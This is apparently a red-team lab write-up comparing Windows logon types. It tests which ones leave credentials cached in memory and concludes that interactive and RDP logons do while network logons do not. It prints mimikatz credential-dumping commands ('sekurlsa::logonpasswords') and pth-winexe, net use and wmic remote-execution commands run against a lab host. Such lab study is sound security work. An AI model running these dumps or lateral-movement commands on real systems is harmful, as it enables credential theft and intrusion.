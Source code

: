 ```yaml
---
description: >-
  This lab explores/compares when credentials are stored on a compromised
  system.
---
```


# Network vs Interactive Logons

## Interactive Logon \(2\): Initial Logon

Let's make a base password dump \(using mimikatz\) on the victim system to see what we can get before we start logging on to the victim with other methods. To test this, the victim system was rebooted and no attempts to login to the system were made, except for the interactive logon to get access to the console:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-test1.png)

## Interactive Logon \(2\) via runas and Local Account

{% code-tabs %}
{% code-tabs-item title="victim" %}
```text
runas /user:low cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-test2.png)



## Interactive Logon \(2\) via runas and Domain Account

{% code-tabs %}
{% code-tabs-item title="victim" %}
```text
runas /user:spot@offense cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-test3.png)

## Network Logon \(3\) with Local Account

Imagine and admin or an Incident Responder is connecting to a victim system \(using that machine's local account\) remotely to inspect it for a compromise using psexec or pth-winexe:

{% code-tabs %}
{% code-tabs-item title="victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U back%password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Mimikatz shows no credentials got stored in memory for the user `back`.

## Network Logon \(3\) with Domain Account

Imagine a good admin or an Incident Responder is connecting to a victim system \(using that machine's local account\) remotely to inspect it for a compromise using psexec, pth-winexe, a simple SMB mount or WMI:

{% code-tabs %}
{% code-tabs-item title="admin@linux" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U offense/spot%password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="admin@windows" %}
```text
PS C:\Users\spot> net use * \\10.0.0.2\test /user:offense\spotless spotless
Drive Z: is now connected to \\10.0.0.2\test.

The command completed successfully.

PS C:\Users\spot> wmic /node:10.0.0.2 /user:offense\administrator process call create calc
Enter the password :********

Executing (Win32_Process)->Create()
Method execution successful.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Mimikatz shows no credentials got stored in memory for `offense\spotless` or `offense\administrator`.

## Network Interactive Logon \(10\) with Domain Account

RDPing to the victim system:

![](../../.gitbook/assets/pwdum-test5.png)

Caches the credentials in memory:

![](../../.gitbook/assets/pwdump-test6.png)

![](../../.gitbook/assets/pwdump-logon10.png)

## Observations

Network logons do not get cached in memory, interactive and remote interactive do get cached and can get easily dumped with Mimikatz.

